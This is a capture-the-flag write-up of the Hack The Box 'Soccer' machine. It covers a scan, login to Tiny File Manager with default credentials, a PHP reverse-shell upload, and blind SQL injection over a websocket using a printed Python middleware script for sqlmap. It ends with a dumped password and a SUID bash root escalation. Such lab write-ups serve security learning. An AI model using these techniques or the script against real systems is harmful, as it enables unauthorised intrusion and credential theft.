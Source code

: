 # Initial scanning
First I ran an nmap scan to check for open ports and available services on this machine
```
karim@alpacino:~/Desktop/htb$ nmap -sC -sV 10.10.11.194
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-19 20:05 EET
Nmap scan report for 10.10.11.194
Host is up (0.068s latency).
Not shown: 978 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp    open     http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
```
so there are three ports open which are 22 for ssh and 9091 for xmltec-xmlmail service which will be usefull in the future and xmltec-xmlmail80 for http and its redircting me to soccer.htb so I added the ip in my **/etc/hosts** file to access the website
![image1](img/1.png)

and I was to able to access the website. so I ran a gobsuter scan to find hidden directories  in the website
```
karim@alpacino:~/Desktop/htb$ sudo gobuster dir -u http://soccer.htb -w /opt/wordllists/dirbuster/directory-list-2.3-medium.txt 
[sudo] password for karim: 
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/wordllists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/01/19 20:33:16 Starting gobuster in directory enumeration mode
===============================================================
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
```
gobuster found a directory called tiny so I opened a login page appeared to me
![image1](img/2.png)
After a little research I found that tiny is a file manger so I viewed the source code to find if there is a version number and I found it and it was "**2.4.3**"
![image1](img/3.png)
so I searched online for the default credentials of this version and I found "**admin:admin@123**" so I tried it and worked and I got logged in as admin user
# Initial Foothold
I was prompted to a file managment system with the  ability to upload file
![image1](img/4.png)
so I tried to upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) but it was only uploaded succefully in the **/var/www/html/tiny/uploads** directory and I obtained a reverse shell
![image1](img/5.png)]
I tried to cat the user.txt file in the /home/player directory to obtain the flag but I didn't have the permission to read the file
```
www-data@soccer:/home/player$ cat user.txt
cat: user.txt: Permission denied
```
so I searched in the default folder for something odd and I found **/etc/nginx** which inticades that there is an nginx server running so I cded to /etc/nginx/sites-enabled and I found **soc-player.htb** file and I found that there is another server running with another subdomain
```
www-data@soccer:/etc/nginx/sites-enabled$ cat soc-player.htb 
server {
	listen 80;
	listen [::]:80;

	server_name soc-player.soccer.htb;

	root /root/app/views;

	location / {
		proxy_pass http://localhost:3000;
		proxy_http_version 1.1;
		proxy_set_header Upgrade $http_upgrade;
		proxy_set_header Connection 'upgrade';
		proxy_set_header Host $host;
		proxy_cache_bypass $http_upgrade;
	}

}
```
so I added the subdomain to my **/etc/hosts** file and I opened it in my browser
![image1](img/6.png)
And I found that it has a signup functionality and a functionality to book tickets to matches so I created an account and went to the tickets booking page
![image1](img/7.png)
and as you can see I tried sql injection and it appeared that this form is vurnable to blind sql injection so I fired up burp suite to analyze the application and to know what technology it is using.
![image1](img/10.png)
So I discovered that it run websocket and unfortunatly You can't use sqlmap map with websockets directly so searches online and found [this article](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) that explains how to use sqlmap with websockets.
so I used the script in the article and modified it to be compatable with our machine and here is the modified script
```
from http.server import SimpleHTTPRequestHandler  
from socketserver import TCPServer  
from urllib.parse import unquote, urlparse  
from websocket import create_connection  
  
ws_server = "ws://soc-player.soccer.htb:9091"  
  
def send_ws(payload):  
 ws = create_connection(ws_server)  
 # If the server returns a response on connect, use below line   
 #resp = ws.recv() # If server returns something like a token on connect you can find and extract from here  
   
 # For our case, format the payload in JSON  
 message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure  
 data = '{"id":"%s"}' % message  
  
 ws.send(data)  
 resp = ws.recv()  
 ws.close()  
  
 if resp:  
  return resp  
 else:  
  return ''  
  
def middleware_server(host_port,content_type="text/plain"):  
  
 class CustomHandler(SimpleHTTPRequestHandler):  
  def do_GET(self) -> None:  
   self.send_response(200)  
   try:  
    payload = urlparse(self.path).query.split('=',1)[1]  
   except IndexError:  
    payload = False  
      
   if payload:  
    content = send_ws(payload)  
   else:  
    content = 'No parameters specified!'  
  
   self.send_header("Content-type", content_type)  
   self.end_headers()  
   self.wfile.write(content.encode())  
   return  
  
 class _TCPServer(TCPServer):  
  allow_reuse_address = True  
  
 httpd = _TCPServer(host_port, CustomHandler)  
 httpd.serve_forever()  
  
  
print("[+] Starting MiddleWare Server")  
print("[+] Send payloads in http://localhost:8081/?id=*")  
  
try:  
 middleware_server(('0.0.0.0',8081))  
except KeyboardInterrupt:  
 pass
```
and I ran sqlmap and the following credentials appeared
```
+------+-------------------+----------+----------------------+
| id   | email             | username | password             |
+------+-------------------+----------+----------------------+
| 1324 | player@player.htb | player   | PlayerOftheMatch2022 |
+------+-------------------+----------+----------------------+
```
so I logged in via ssh to the machine as player user and I was able to read the user flag
# Privilage Escalation
so I uploaded [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) script and ran it on the machine
![image1](img/11.png)
so I ran the /usr/bin/bash script with the following command
```
bash-5.0$ /usr/bin/bash -p
```
so that's how I was able to be the root user
![[Screenshot from 2023-01-21 18-32-15.png]]
# conclusion
In the end of this writeup I would like to share my thoughts about this machine.
I think this machine is a good one and if you solve it you will learn multiple things like automating websocket sql injection and I think that the creator of this machine should be respected.
